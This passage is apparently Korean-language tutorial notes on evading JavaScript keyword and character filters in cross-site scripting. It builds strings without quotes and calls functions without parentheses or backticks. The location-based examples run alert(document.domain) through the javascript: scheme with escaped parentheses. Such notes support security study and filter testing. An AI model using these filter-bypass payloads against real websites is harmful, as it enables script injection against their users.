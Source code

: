 문자열 선언을 사용할 수 없을 때(따옴표, 백틱을 사용할 수 없을 때) 다음과 같은 방법을 사용할 수 있다.  
#### RegExp 객체 사용하기  
**/Hello World!/** 형태로 **RegExp 객체(정규표현식)를 생성**하고 객체의 **패턴 부분을 가져옴**으로써 문자열을 만들 수 있습니다.  
```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

#### String.fromCharCode 함수 사용  
**String.fromCharCode** 함수는 유니코드의 범위 중 **파라미터로 전달된 수**에 해당 하는 **문자를 반환**합니다.  
```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

#### 기본 내장 함수나 객체의 문자를 사용하는 방법  
**toString** 함수를 이용해 문자열로 변경하게 되면 **함수나 객체의 형태가 문자열로 변환**된다.  
```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```
위에서 baz는 **Hi()** 이다.  
**history.toString()** 은 **[object History]** 문자열을 반환함.  
또한 **URL.toString()** 은 **function URL() { [native code] }** 문자열을 반환함.  
**history+[]; history+0;** 처럼 **함수나 객체와 +, - 와 같은 산술 연산을 수행**하게 되면 연산을 위해 **toString 함수를 호출**해 문자열로 변환한 후 **연산을 수행**한다.  

#### 숫자 객체의 진법 변환  
**10진수 숫자를 36진수로 변경**하여 **아스키 영어 소문자** 범위를 모두 생성할 수 있습니다.  
문법 오류를 피하기 위해 **괄호, 점 두 개, 공백과 점을 조합해서 사용**한다.  
```javascript
var foo = (29234652).toString(36); // "hello"
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

## 자바스크립트 함수 및 키워드 필터링 - 3  
### 함수 호출  
자바스크립트의 함수를 호출하기 위해 **() 혹은 `** 을 사용한다.  
```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```
만약 괄호, 백틱이 전부 필터링 되어있으면 아래에 있는 방법들로 우회할 수 있다.  
### javascript 스키마를 이용한 location 변경  
**javascript:** 스키마를 이용하면 **URL을 이용**해 자바스크립트 **코드를 실행**할 수 있다.  
**location** 객체를 변조하는 방식이다.  
```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```
